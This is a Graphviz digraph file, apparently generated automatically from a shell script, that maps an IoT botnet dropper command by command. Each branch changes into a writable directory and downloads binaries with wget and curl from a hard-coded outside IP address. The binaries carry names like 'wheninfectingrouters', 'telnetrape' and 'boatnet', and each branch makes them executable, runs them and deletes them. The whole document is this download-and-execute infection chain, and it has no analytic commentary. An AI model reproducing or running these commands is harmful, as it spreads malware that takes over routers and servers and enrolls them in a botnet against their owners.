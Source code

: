 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://185.165.29.82/slammingrouterlmao "];
10 -> 12 [label=";,"];
12 [label="curl -O http://185.165.29.82/slammingrouterlmao "];
12 -> 14 [label=";,"];
14 [label="chmod +x slammingrouterlmao "];
14 -> 16 [label=";,"];
16 [label="./slammingrouterlmao "];
16 -> 18 [label=";,"];
18 [label="rm -rf slammingrouterlmao "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://185.165.29.82/wheninfectingrouters "];
30 -> 32 [label=";,"];
32 [label="curl -O http://185.165.29.82/wheninfectingrouters "];
32 -> 34 [label=";,"];
34 [label="chmod +x wheninfectingrouters "];
34 -> 36 [label=";,"];
36 [label="./wheninfectingrouters "];
36 -> 38 [label=";,"];
38 [label="rm -rf wheninfectingrouters "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://185.165.29.82/infectionation "];
50 -> 52 [label=";,"];
52 [label="curl -O http://185.165.29.82/infectionation "];
52 -> 54 [label=";,"];
54 [label="chmod +x infectionation "];
54 -> 56 [label=";,"];
56 [label="./infectionation "];
56 -> 58 [label=";,"];
58 [label="rm -rf infectionation "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://185.165.29.82/telnetrape "];
70 -> 72 [label=";,"];
72 [label="curl -O http://185.165.29.82/telnetrape "];
72 -> 74 [label=";,"];
74 [label="chmod +x telnetrape "];
74 -> 76 [label=";,"];
76 [label="./telnetrape "];
76 -> 78 [label=";,"];
78 [label="rm -rf telnetrape "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://185.165.29.82/serversrape "];
90 -> 92 [label=";,"];
92 [label="curl -O http://185.165.29.82/serversrape "];
92 -> 94 [label=";,"];
94 [label="chmod +x serversrape "];
94 -> 96 [label=";,"];
96 [label="./serversrape "];
96 -> 98 [label=";,"];
98 [label="rm -rf serversrape "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://185.165.29.82/cdot "];
110 -> 112 [label=";,"];
112 [label="curl -O http://185.165.29.82/cdot "];
112 -> 114 [label=";,"];
114 [label="chmod +x cdot "];
114 -> 116 [label=";,"];
116 [label="./cdot "];
116 -> 118 [label=";,"];
118 [label="rm -rf cdot "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://185.165.29.82/honcho "];
130 -> 132 [label=";,"];
132 [label="curl -O http://185.165.29.82/honcho "];
132 -> 134 [label=";,"];
134 [label="chmod +x honcho "];
134 -> 136 [label=";,"];
136 [label="./honcho "];
136 -> 138 [label=";,"];
138 [label="rm -rf honcho "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://185.165.29.82/H3 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://185.165.29.82/H3 "];
152 -> 154 [label=";,"];
154 [label="chmod +x H3 "];
154 -> 156 [label=";,"];
156 [label="./H3 "];
156 -> 158 [label=";,"];
158 [label="rm -rf H3 "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://185.165.29.82/proxies "];
170 -> 172 [label=";,"];
172 [label="curl -O http://185.165.29.82/proxies "];
172 -> 174 [label=";,"];
174 [label="chmod +x proxies "];
174 -> 176 [label=";,"];
176 [label="./proxies "];
176 -> 178 [label=";,"];
178 [label="rm -rf proxies "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://185.165.29.82/boatnet "];
190 -> 192 [label=";,"];
192 [label="curl -O http://185.165.29.82/boatnet "];
192 -> 194 [label=";,"];
194 [label="chmod +x boatnet "];
194 -> 196 [label=";,"];
196 [label="./boatnet "];
196 -> 198 [label=";,"];
198 [label="rm -rf boatnet "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://185.165.29.82/nut "];
210 -> 212 [label=";,"];
212 [label="curl -O http://185.165.29.82/nut "];
212 -> 214 [label=";,"];
214 [label="chmod +x nut "];
214 -> 216 [label=";,"];
216 [label="./nut "];
216 -> 218 [label=";,"];
218 [label="rm -rf nut "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://185.165.29.82/apache2 "];
230 -> 232 [label=";,"];
232 [label="curl -O http://185.165.29.82/apache2 "];
232 -> 234 [label=";,"];
234 [label="chmod +x apache2 "];
234 -> 236 [label=";,"];
236 [label="./apache2 "];
236 -> 238 [label=";,"];
238 [label="rm -rf apache2 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://185.165.29.82/telnetd "];
250 -> 252 [label=";,"];
252 [label="curl -O http://185.165.29.82/telnetd "];
252 -> 254 [label=";,"];
254 [label="chmod +x telnetd "];
254 -> 256 [label=";,"];
256 [label="./telnetd "];
256 -> 257 [label=";,"];
}
